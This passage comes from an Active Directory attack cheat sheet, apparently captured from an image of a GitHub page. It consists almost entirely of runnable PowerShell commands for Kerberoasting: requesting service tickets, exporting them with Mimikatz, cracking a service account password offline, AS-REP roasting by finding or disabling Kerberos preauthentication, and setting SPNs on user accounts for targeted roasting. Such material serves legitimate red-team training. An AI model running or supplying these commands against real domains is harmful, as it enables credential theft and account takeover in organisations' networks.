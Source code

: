 ```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.corp.corporate.local" 
# Check if the TGS has been granted
klist
```
**4. Export and crack TGS:**
```powershell
# Export all tickets
Invoke-Mimikatz -Command '"kerberos::list /export"'
# Crack the Service account password
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\3-40a10000-svcadmin@MSSQLSvc~dcorp-mgmt.corp.corporate.local-CORP.CORPORATE.LOCAL.kirbi
```

### Targeted Kerberoasting AS REPs

**1. Enumeration with Powerview dev Version:**
```powershell
# Enumerating accounts with Kerberos Preauth disabled
Get-DomainUser -PreauthNotRequired -Verbose
# Enumerating the permissions for RDPUsers on ACLs using
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```
**2. Enumeration with AD Module:**
```powershell
# Enumerating accounts with Kerberos Preauth disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
# Set unsolicited pre-authentication for test01 UAC settings
Set-DomainObject -Identity test01 -XOR @{useraccountcontrol=4194304} -Verbose
```
**3. Request encrypted AS REP for offline brute force with John:**
```powershell
# Request encrypted AS REP
Get-ASREPHash -UserName VPN1user -Verbose
```

### Targeted Kerberoasting Set SPN

**1. With Powerview dev Version:**
```powershell
# Check if user01 already has a SPN
Get-DomainUser -Identity User01 | select serviceprincipalname
# Set a SPN for the user
Set-DomainObject -Identity User01 -Set @{serviceprincipalname='ops/whatever1'}
```
**2. With AD Module:**
```powershell
# Check if user01 already has a SPN
Get-ADUser -Identity User01 -Properties serviceprincipalname | select serviceprincipalname
# Set a SPN for the user
Set-ADUser -Identity User01 -ServicePrincipalNames @{Add='ops/whatever1'}
```
**3. Request a ticket:**
```powershell
# Step 1 - Request a ticket
Add-Type -AssemblyNAme System.IdentityModel
# Step 2 - Request a ticket
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
# Check if the ticket has been granted
klist
```
**Example:**
